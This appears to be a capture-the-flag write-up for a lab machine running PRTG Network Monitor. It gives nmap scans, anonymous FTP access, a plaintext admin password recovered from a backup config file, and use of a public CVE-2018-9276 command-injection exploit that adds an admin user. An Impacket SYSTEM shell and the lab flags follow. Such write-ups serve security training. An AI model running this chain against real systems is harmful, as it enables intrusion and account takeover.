


# Netmon

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.152

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC

Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## PRTG Network Monitor (NETMON)


## Anonymous FTP
```
$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:cpt): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
```

## The User Flag
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> cd Public
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos

---

$ cat ftp/user.txt 
dd58ce67b49e15105e88096c8d9255a5
```

## DB Credential in PRTG Backup Configuration File
PRTG backup configuration is located in `/ProgramData/Paessler/PRTG Network Monitor/`. The file's name is `PRTG Configuration.old.bak`.

```
<dbpassword>
	<!-- User: prtgadmin -->
	PrTg@dmin2018
</dbpassword>
```

## PRTG Admin Login
Used `prtgadmin: PrTg@dmin2018` to login in as the PRTG admin.



## RCE as Privileged User
The current version (18.1.37.13946) of PRTG is vulnerable to `OS command injection`.

`CVE-2018-9276`

https://www.exploit-db.com/exploits/46527 can be used to exploit the vulnerability.

```
bash exploit.sh -u http://10.10.10.152 -c "***"

[*] file created 
[*] sending notification wait....

[*] adding a new user 'pentest' with password 'P3nT3st' 
[*] sending notification wait....

[*] adding a user pentest to the administrators group 
[*] sending notification wait....


[*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

```
$ sudo smbexec.py 'pentest:P3nT3st!@10.10.10.152'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

## The Root Flag
```
C:\Windows\system32>dir c:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 684B-9CE8

 Directory of c:\users\administrator\desktop

02/03/2019  12:35 AM    <DIR>          .
02/03/2019  12:35 AM    <DIR>          ..
02/03/2019  12:35 AM                33 root.txt
               1 File(s)             33 bytes
               2 Dir(s)  12,060,561,408 bytes free

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
3018977fb944bf1878f75b879fba67cc
```
